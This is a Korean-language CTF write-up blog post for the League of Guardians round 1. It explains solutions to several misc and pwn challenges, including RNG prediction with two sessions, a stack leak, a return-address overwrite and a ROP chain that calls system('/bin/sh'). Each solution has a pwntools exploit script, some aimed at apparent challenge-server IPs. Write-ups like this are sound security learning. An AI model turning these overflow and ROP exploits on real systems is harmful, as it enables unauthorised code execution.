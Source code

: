 ```yaml
---
layout: post
title: League of guardians 1차전 write up
---
```






사이버 가디언즈 1차전에서 푼  풀이이다.




Randomgame1(misc) 
-
 nc로 접속하면 가위바위보를 한다. 바이너리를 아이다로 까보면 rand로 값을 만들고 win을 9번보다 많이 해야한다. 고로 다 이기면 된다. rand값을 이길려면 어쩌지 생각하다가 시드가 일정시간마다 바뀌는 것을 알았다. 

그래서 동시간에 세션을 2개 열어놓고 첫 번째 세션에서 나온 값을 토대로 win을 하기 위한 경우를 파악한 뒤 다 이겨주면 flag를 얻을 수 있다.

`solve.py`
```python
from pwn import *

s = remote("52.79.210.195",9292)
s2 = remote("52.79.210.195",9292)

win_list = []

for i in range(0,10):
	s.sendlineafter(": ", "1")
	result=s.recvline()
	if result == "You win!\n":
		win_list.append("1")
	elif result == "You lose!\n":
		win_list.append("2")
	else: win_list.append("3")

for i in range(0,10):
	s2.sendlineafter(": ",win_list[i])
	s2.recvuntil("You win!\n\n")

log.success(s2.recvline())
```
`flag{YoU_R_V3ry_Lucky_GUY!@#$}`

**![](https://lh5.googleusercontent.com/q7EduuOmhIZLizW0dxuKq0uCN87HIR5eL-UReD_OeUHvCioHfmWVEi64-rKsEInR7jV_0-3upmmj69W7dfZhlwWtXUVd_F3erutuJAx1nO_8AisjZA2ve28LFvx6HN_XsGPiGGRz)**

pang(misc)
-
이 문제는 그냥 pwntool이나 파이썬 소켓을 이용하면 풀리는 문제이다. random1 값이 나온 것을 그대로 입력하고 random2 나온 값을 input2로  또 입력하고 str(int(ran2[0].encode("hex"),16) * ran1)한 값을 input3에 입력하면 플래그가 나온다.

`solve.py`
```python
from pwn import *

s = remote("52.79.210.195",13001)

s.recvuntil('ran1 : ')
ran1=str(s.recv(14))
s.recvuntil('input random!\n\n')
s.sendline(ran1)
s.recvuntil('ran2 : ')
ran2=str(s.recv(20))
s.recvuntil('input random2!\n\n')
s.sendline(ran2)

s.recv()
input3=str(int(ran2[0].encode("hex"),16) * float(ran1))[:14]
log.info(input3)
s.sendline(input3)
s.interactive()
```


Randomgame2(pwn)
-
Randomgame1과 같은 방법이지만 조금 pwnable적 지식이 더해져서 pwn으로 나왔다. 바이너리를 아이다로 까보면

**![](https://lh5.googleusercontent.com/t4wJeY9EiKzl3YFpCRix7_HWC0wnye0IE96gTPJVch8D8CSFs3NyspajrYQc1drG3CiLZGwMlSmwDq5SpVv963f6F_wcKKu44Cpq1ZCe8EE_X4fRanBVvuaFRSTYYGuSbC-QE56j)** 

게임을 지면 --v8가 되고 이기면 ++v8이 된다. 그리고 v8 > v10(-3으로 초기화 되어있음)이면 cat flag를 해준다. 
하지만 여기서 핵심은 v8은 

**![](https://lh4.googleusercontent.com/oFO3vrLSeIoV5tgF7EjlooK_zY9vH2ElowMnlfSWm4XJw-V3tkgGtycSckMjsWGHynyHVPk6k0m3QPAcGr85hSJGnWm-8U6KV2FOFNHU4biXKyVokg5Li0MFAWdSrhI47JMG9Yev)**

unsigned로 선언 되어있다. 음수를 포함하지 않는다. 따라서 첫 바이트가 음과 양을 판단하기 때문에 -3보다 클려면 -4, -5, -6이렇게 되어야 한다. 따라서 가위바위보 게임에서 다 지면 된다. 

```python
from pwn import *

s = remote("52.78.156.241",4885)
s2 = remote("52.78.156.241",4885)

lose_list = []

for i in range(0,11):
	s.sendlineafter(": ", "1")
	result=s.recvline()
	if result == "You win!\n":
		lose_list.append("3")
	elif result == "You lose!\n":
		lose_list.append("1")
	else: lose_list.append("2")

for i in range(0,11):
	s2.sendlineafter(": ",lose_list[i])
	s2.recvuntil("You lose!\n\n")

log.success(s2.recvline())
```
`flag{ThATs_t0o_BAd_y0u_R_s0_uNLucky!@#$}`

**![](https://lh3.googleusercontent.com/7SUlNCZ93Hj9bvbLftWzme1NhVaCWPgoRAcEbU2e4Lb7cJ1frwL3_St_vsTLH15RppMzlnq52zRVSPSshjr4LHkgdJ4mgE3nUxVrPpfAAs_ZbhupBhY_y68HjEdL7wsSb2SGV2Bi)**

guess(pwn)
-
elf 64bit 문제이다. 


**![](https://lh3.googleusercontent.com/vLiNCMdRejXRccUGYdu-8wsoUoOwnK0SWHPXxZDu28rnUE2zjfhZSBb_ghvaB6FskO9avRGvb274SMLYY23pXAfU3T4ip7wU1RfKkt_sUsHfixc9CXhUrRIfAMP0Z6fUdYg1UsMd)**


메모리 보호 기법은 이러하다.

**![](https://lh6.googleusercontent.com/PnE3-7HHBpG7k0CXH9gVTRmSetQAXWkrXJtkBtr-oMxqnl1kT32zIrWklVPbldhjPNWQgle29iQzuTY2yguiAKBewCy3FpMiNFvdd82d_LRRpbiSgAxshY1M7lil3iYT5Ir2-q_S)**


바이너리를 까보면 v6이라는 변수에 rand값을 넣어준다. 그리고 그 값이 입력받는 값과 같으면 system("/bin/sh")을 실행해준다. buf의 위치는 rbp-0x20, v6변수의 위치는 rbp-0x10이다. buf의 주소부터 0x1E만큼 입력을 받을 수 있으니 오버플로우를 통해 "Nice to meet you %s"에서 v6(rand)값을 leak할 수 있다.


`exploit.py`
```python
from pwn import *

s = process("./guess")
#context.log_level = 'debug'
s.recvuntil('Tell me your name')

payload = "A"*15

s.sendline(payload)
s.recvuntil("A"*15+"\n")
leak=int(u32(s.recv(4)))
print (leak)
s.recvuntil('Okay, can you guess the random number?\n')
s.send(str(leak))
s.interactive()
```


yourNAME(pwn)
-
elf 64bit 문제이다.

**![](https://lh4.googleusercontent.com/QvNUncstkqYiV7rw434ww0lgtrL8sa70f1luprMjugK3bUrT7I5kpz-y2uaSqtd1ux-cWPdKruMs3UHs-75YdYanzwpueu8Nc7PPyX_fMzpO2Bl4k67-wI1_mOZ3wmYX16f77zAr)**

메모리 보호기법은 이러하다.


**![](https://lh6.googleusercontent.com/SCTbr3vyc1Sj1taF7wT8M9qhswYgo0aYVorKvjPHgK17Z8En912wM4w5YkuP3lRdmI1p-h09nB6Au7VrUorucXK1MSRREuRPaDKfwqWniISEX98OnIMEFZ0_Pd-I_Tl9yAEE3b3a)**


scanf에서 overflow가 발생한다. 그리고 바이너리를 잘 보면,


**![](https://lh5.googleusercontent.com/Ci3PNYMGNgRajSF1XWTosYk25c9Mwy1LUL55v6oIOdcPVYEniya88Q14oFAdsIUXhMtfsLt_8caOcKvAOa9tVauDj9NSpX6bEzvC2F4EYKE9uDQM73D4l8V67ISUVZd2B3i5-eYg)**

이런 함수가 있다. 위에 if문 무시하고

**![](https://lh6.googleusercontent.com/05KfovEsbj5EtXQcKq5sLQ2e4QbGoCVrWsVnF6bmeWghbTsdsewz0GbKjjsPZwIFr7okjByOfCWdD62Xvb5FprurEHQKopHy6UpwSuyWwxX-MgGQlO5uq-ARB19d3a8iN8IYtM9o)**

이 주소만 쓱싹해서 ret에 박으면 된다. 

`exploit.py`
```python
from pwn import *

s = remote("52.78.156.241",14191)
context.log_level = 'debug'

pr = 0x004008c3
binsh = 0x004008F0
payload = "A"*40
payload += p64(0x400788) #oneshot

s.sendlineafter('What your name?\n',payload)
s.interactive()
```

dance(pwn)
-
elf 64bit이다. 

**![](https://lh3.googleusercontent.com/zqGxI6OzffXPvUUKKCcoj2K6pkDZWdDEaS2-jsrGwyY4fAx98GCxerYp3DPCDaS31beGovx_rDGosIEbI7yqZe_eU7kk3SUgAnI4MKtU5_c-iMSFO8Efyz51DSkgaYh-l_Bf-6Xz)**

NX가 활성화 되어있다. 

아이다로 분석하면, 1번 메뉴나 2번 메뉴 scanf에서 overflow가 가능하다. 그리고 welldone 함수에서 system함수가 사용되었다.

 ROP할 때 system인자로 넘겨 줄 /bin/sh가젯은  바이너리 안에 있는 심볼인 fflush의 뒤에 sh부분만 사용하면 된다. 그리고 prdi 가젯을 사용하면 안 되고, gadget()에 있는 pop rdi, pop rbp, ret을 사용해야 한다. 

`exploit.py`
```python
from pwn import *

s = process("./dance")

sh = 0x40046f
pprdi = 0x4008fa
system = 0x400760

s.recvuntil("4. exit\n")
s.sendline("1")
s.recvuntil("!\n")

payload = "wellwell"
payload += "A"*64
payload += p64(pprdi)
payload += p64(sh)
payload += p64(0)
payload += p64(system)

s.sendline(payload)
s.interactive()
```

